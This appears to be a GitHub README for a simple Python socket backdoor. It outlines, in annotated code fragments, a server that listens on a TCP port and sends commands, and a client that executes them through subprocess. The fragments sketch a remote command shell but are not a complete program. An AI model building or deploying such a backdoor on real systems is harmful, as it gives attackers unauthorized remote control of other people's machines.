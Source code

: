 # Backdoor-Client-Server-Socket-Python
Simple backdoor using lib python's socket

# lib
- `from socket import *` # for connection
- `import subprocess` # for cmd command

# Server
- `sock = socket(AF_INET, SOCK_STREAM)` # set TCP socket
- `port = 12345` # port of server
- `sock.bind(('', port)) && sock.listen(1)` # set server
- `conn, addr = sock.accept()` # conn = connection && addr = (client)address
- `conn.send(command.encode())` # send in array bytes
- `conn.recv(1024).decode("utf-8")` #receive and convert in string

# Client
- `CMD = subprocess.Popen(command, ...)` # set subprocess for send CMD command

![Image](https://github.com/NoNameoN-A/Backdoor-Client-Server-Socket-Python/blob/main/Else/screenshot.png)
